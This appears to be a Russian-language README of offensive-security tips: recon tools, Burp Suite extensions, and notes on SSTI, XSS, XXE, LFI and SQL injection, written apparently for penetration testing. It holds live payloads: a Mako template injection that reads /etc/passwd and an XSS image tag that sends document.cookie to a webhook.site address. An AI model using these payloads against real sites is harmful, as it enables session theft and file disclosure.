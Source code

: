 # Hack Tips

## Разведка доменных имен

### [Cero](https://github.com/glebarez/cero)
Cero подключается к удалённым хостам и считывает доменные имена из сертификатов, предоставленных во время TLS-р�[...]  
- Извлекает сертификаты из любого протокола, работающего через TLS (не только HTTPS).  
- Позволяет указывать цели: доменные имена, IP-адреса и диапазоны CIDR (поддержка IPv6).

---

### [hakip2host](https://github.com/hakluke/hakip2host)
Инструмент для возврата связанных доменных имен по списку IP-адресов.  
- DNS PTR-поиски  
- Альтернативные имена субъектов (SAN) в SSL-сертификатах  
- Общие имена (CN) в SSL-сертификатах

---

### [httpx](https://github.com/projectdiscovery/httpx)
Быстрый и многоцелевой HTTP-инструментарий.  
- Позволяет запускать несколько тестов с помощью библиотеки.

---

### [waymore](https://github.com/xnl-h4ck3r/waymore)
Инструмент для поиска архивных ссылок через Wayback Machine.  
- Находит больше ссылок, чем другие инструменты.  
- Загружает архивные ответы и URL-адреса.

---

### [xnLinkFinder](https://github.com/xnl-h4ck3r/xnLinkFinder)
Поиск конечных точек и потенциальных параметров заданной цели.  
- Сканирование одного или нескольких доменов/URL  
- Поиск файлов и параметров в каталогах или файлах  
- Импорт из Burp (XML), ZAP (ASCII), Caido (CSV)  
- Интеграция с результатами waymore

---

## Burp Suite — полезные расширения

### Turbo Intruder
Мощное расширение для проведения высокоскоростных атак (brute-force, fuzzing) с помощью скриптов на Python.  
- Кастомизация логики атаки  
- Обработка ответов для поиска уязвимостей

#### turbo-intruder_script.py
Скрипт для проведения Time-Based SQL Injection с использованием расширения Turbo Intruder для Burp Suite. Скрипт перебирает символы для извлечения схем из базы данных через подстановку значений из файла символов и анализирует задержку в ответах для определения успешных угадываний.

---

### Copy as FFUF Command
Упрощает экспорт запросов из Burp Suite для ffuf.  
- Автоматически формирует команду ffuf по выбранному запросу

### Hackvertor
Расширение для преобразования и кодирования данных в Burp Suite.  
- Большое количество кодировок  
- Удобно для генерации payload'ов, обхода фильтров и анализа данных

### Param Miner
Автоматически ищет скрытые и нестандартные параметры в веб-приложениях.  
- Позволяет находить дополнительные точки атаки

---

## Веб-уязвимости

### SSTI (Server-Side Template Injection) в Python

#### Mako Templates
- Проверка уязвимости:  
  ```python
  ${7*7}  # → 49
  ```
- Чтение файла:  
  ```python
  <% import os %>${os.popen('cat /etc/passwd').read()}
  ```

---

### XSS Payload

```html
<img src=x onerror="this.src='https://webhook.site/b8ce3f5c-707d-406f-a8df-0dd7928bca42?c='+document.cookie;">
```

#### exploit.svg
Пример SVG-файла с использованием встраивания XML External Entity (XXE). Содержит сущность, ссылающуюся на файл `/etc/passwd`, что может быть использовано для демонстрации или тестирования XXE-уязвимостей.

---

## LFI (Local File Inclusion)

- **Top 25 LFI Parameters** — [файл](https://github.com/felixsta/hack_tips/blob/main/Top_25_LFI_Parameters)  
- **LFI Wordlists:**  
  - [SecLists/Fuzzing/LFI](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)  
  - [DragonJAR/Security-Wordlist/main/LFI-WordList-Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux)

#### delimiter_list
Список символов-разделителей, используемый для подбора полезной нагрузки при отравлении кэша (cache poisoning). Содержит различные символы и их URL-кодированные варианты, которые помогают обходить фильтры и изменять поведение кэширования на стороне сервера во время проведения атак или fuzzing.

---

## SQLi (SQL Injection)
- [Stacked Queries](https://www.sqlinjection.net/stacked-queries/)  
- [Pentestmonkey SQLi Cheat Sheet](https://pentestmonkey.net/category/cheat-sheet/sql-injection)